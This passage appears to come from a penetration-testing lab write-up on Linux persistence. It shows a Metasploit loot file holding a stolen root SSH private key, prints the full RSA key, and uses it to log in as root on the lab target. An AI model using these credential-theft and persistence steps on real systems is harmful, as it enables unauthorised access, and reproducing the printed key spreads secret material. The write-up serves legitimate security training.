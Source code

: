 ```bash
loot
cat /root/.msf4/loot/20230422145422_Linux_Persistenc_192.101.97.3_id_rsa_460359.txt
```

- Exit the `msfconsole` with command **`exit -y`**. All the sessions will be closed.

```bash
vim ssh_key

# Add the private key, save and exit vim --> :wq
```

```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA0Xp0HZyPC+dUSBRJGhFbqG3pl4+Z1hu3jOfGE6zax4TZUK0x
eZ6gSPhNoVLDT8iaB3Hp5lyXY+Ly/o8Uw/SofZbJin3jpfL96f9YdR4fJ3ECoIwB
EBLDveMNRKFhLU5ZqrdpwyvZi+j4rtuAK3SOdYxHdWZqSAEntFp9PDrcMaAckbNk
48oKpkOyQ57bQf5NZrl+pUp4rkXV3gtm4WUD2R4tnFYsM++3uPO7+VDcW4Rjz2nd
3zz/pKn4EKtP2IcYHGr3nomv7syKFsFiharFOczcDigCw+WPnpUKHIAcfrTv25V+
iZC7VrUFV/r5OBKXl2LhV7efgR0nugYISROiKwIDAQABAoIBAQCOApLnZDSBoGC9
wKrSNkRKCcFbUym6Qe4MYzAgNIXYztI4ZEFvLr+A2HxgSmhIFTl+pJYp6kljmP6c
3kj4k0sKYQfekHudC/9g/A9uzm3WYkGir2clC2ORvnRHO5RSj5QwLMlRW8/OjrDQ
cdQRIaJWRDRJfZW9nLLbDKFsDIcsSCGDjgSPk6LXOmVD0xfGhT++IPFRzeMIQPC4
1DnQ5gPHIeUQ6EDHy+ULdANRONQA/8SiAMFVKL8QlkDsJHXak+ouomwdZk7w/vhj
v7bStU73vzPmCUQUTyfF6qmTqZ7MrgF9qHfWCS7+W6pXIU1SW5S23VbU/3XRWwIQ
WmPi7+d5AoGBAPe64klNRJH1c4jvtG9wckNzThPyKjPv5Qun7qMh/pCEVB0rXD7S
5vGdgC2VbrjsnErX/gYfhP/fXF1V5VFf3fjflH67e3aU+Zt3ueiZLW3pp1+odpwO
6YxIS15/vjFTr/G0JbkLaUgmGx0ytsUrIaMgVwwEbQKEQp1oW1tP0m1/AoGBANh4
qxzJ70DuvGsAd+RkAt91rV8xx4jd9Dpnl0o2/FtMC2ML6K7yjLx0MRBkH+CAt+Ia
HihTQpdcfwoZ3gcBL9VQUkaqleNukVLgOz6beCbAJyukMr73TEb6DwQe3j3xeEFB
JxS5IkOUwKWA4Oju6/hrw4/v+FsfkhwJuD/kLDlVAoGAP9ggHXgWZe92GSJ9xAKc
0BlVU/qjOcNnqjtbWxuVubUA4IueOGquLjLDJ/xNDseb+AX2Z6mT40WzTjKm6PPm
Bw/H+2liBkuakKCofvOLK7p98j8+YjXNpuOy2OXfJGNHAunElw4D0h5P+pRpWiMl
hh79kBFL7swbRunwMXY+6w0CgYBIXcauYB+YsHbSupxaAMkpFPj5ivWunqyn3buo
9srUZo6j9PY7jiBYW+uPFDnH3qAaeSq9xl/LpANgSBd+dfocsLZgo2RqXKs+bnG/
00+OfMxbfY/tYVThoXTlpsAbKx9NiU9cUSvQNelVKsmFdWHzcWs2Mj3vkJVSxDkR
OuFB5QKBgQDwkbPu1MJy7VJVGfky7RZYkuqsDB1sdmS9JL+HwCC4M3Ox3q4zKvCQ
rZ2zCzqdgVAL/OhV7pxBFKPJ1+jEKcp+ItUIPaVFzrg7V29Qco9yePjCHPLepkTe
zpo9B6Oiq0fAKlYI0LJ9Bw+jSQU5Q7BUUxBSm07QbITuxJdgmVoxdw==
-----END RSA PRIVATE KEY-----
```

```bash
chmod 0400 ssh_key
```

- Authenticate to the target with the private key

```bash
ssh -i ssh_key root@192.101.97.3
```

![ssh -i ssh_key root@<TARGET_IP>](.gitbook/assets/image-20230422170517426.png)

------

